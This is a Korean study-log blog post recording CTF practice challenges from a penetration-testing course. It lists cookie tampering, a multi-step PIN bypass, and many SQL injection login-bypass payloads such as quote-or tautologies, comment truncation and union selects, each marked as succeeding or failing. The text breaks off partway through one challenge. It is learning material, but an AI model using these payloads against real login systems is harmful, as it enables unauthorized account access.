 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.8

title: "[TIL] ctf 풀이"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-18
last_modified_at: 

tags: [TIL]
---
```


# get admin
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-1.png?raw=true">
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-2.png?raw=true">
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-3.png?raw=true">
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# admin is mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-4.png?raw=true">
플래그는 안 보임 ㄲㅂ
1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O

# login bypass 3
1. 
id: doldol'#
pw: dol1234
2. 
id: normaltic3'#
pw: asdf
-> x
3. 
id: doldol') union select 'normaltic3', '1111
pw: 1111
-> x
4. 
id: doldol') union select 'normaltic3', '1111'#
pw: 1111
5. 
id: doldol' union select 'normaltic3', '1111', '2222'#
pw: 1111, 2222
-> x
6. 
id: normaltic3'#
pw: ' or '1' = '1
-> x
7. 
id: doldol
pw: dol1234' or '1' = '1
-> x
8. 
id: doldol')#
pw: dol1234
-> x
9. 
id: doldol'#
pw: dol1234'#
-> x
10. 
id: doldol' or '1' = '1'
pw: dol1234
-> x

# login bypass 4
1. 
id: doldol' or '1' = '1
pw: dol1234
-> x
2. 
id: doldol'#
pw: dol1234
3. 
id: doldol'or
pw: dol1234
-> x
4. 
id: doldol')#
pw: dol1234
-> x
5. 